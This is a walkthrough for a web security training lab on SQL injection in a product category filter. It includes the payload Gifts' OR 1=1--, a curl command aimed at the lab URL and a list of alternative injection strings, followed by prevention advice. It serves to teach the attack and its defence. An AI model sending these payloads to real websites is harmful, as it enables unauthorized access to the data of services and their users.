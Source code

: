 # SQL Injection - Product Category Filter Bypass

## Lab Description
This lab contains a SQL injection vulnerability in the product category filter. The goal is to exploit this vulnerability to display unreleased products (where `released = 0`).

**Difficulty**: Apprentice  
**Lab URL**: https://0a150006044547e6a41b8f8400a30097.web-security-academy.net/

## Vulnerability Analysis

### Original Query
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

The application filters products by category and only shows released products (`released = 1`). Our goal is to bypass the `released = 1` condition.

### Injection Point
The `category` parameter in the URL is vulnerable to SQL injection:
```
/filter?category=Gifts
```

## Exploitation

### Step 1: Identify the Vulnerability
When selecting a category, the URL becomes:
```
https://[lab-url]/filter?category=Gifts
```

The category value is directly inserted into the SQL query without proper sanitization.

### Step 2: Craft the Payload
To bypass the `released = 1` condition, we can use a SQL injection payload that comments out the rest of the query:

**Payload**: `Gifts' OR 1=1--`

This transforms the query to:
```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

The `--` comments out everything after it, effectively removing the `released = 1` condition. The `OR 1=1` ensures all products are returned.

### Step 3: Execute the Attack

**Method 1: Browser**
1. Navigate to the lab URL
2. Click on any category filter
3. Modify the URL to: `/filter?category=Gifts'+OR+1=1--`
4. Press Enter

**Method 2: curl**
```bash
curl "https://[lab-url]/filter?category=Gifts'+OR+1=1--"
```

### Step 4: Verify Success
The application should now display ALL products, including unreleased ones, and the lab will be marked as solved.

## Key Concepts

1. **SQL Comments**: The `--` syntax comments out the rest of the SQL query
2. **Boolean Logic**: `OR 1=1` always evaluates to true, bypassing filters
3. **URL Encoding**: The `+` in URLs represents a space character

## Alternative Payloads

```sql
' OR '1'='1'--
' OR 1=1#
' OR 'x'='x'--
```

## Prevention

- Use parameterized queries/prepared statements
- Implement input validation and sanitization
- Apply least privilege principle for database accounts
- Use ORM frameworks that handle SQL safely

## Lab Completion
Once the payload is executed successfully, the lab will automatically detect that unreleased products are being displayed and mark the challenge as solved.

---
**Note**: This walkthrough is for educational purposes only. Always obtain proper authorization before testing security vulnerabilities.
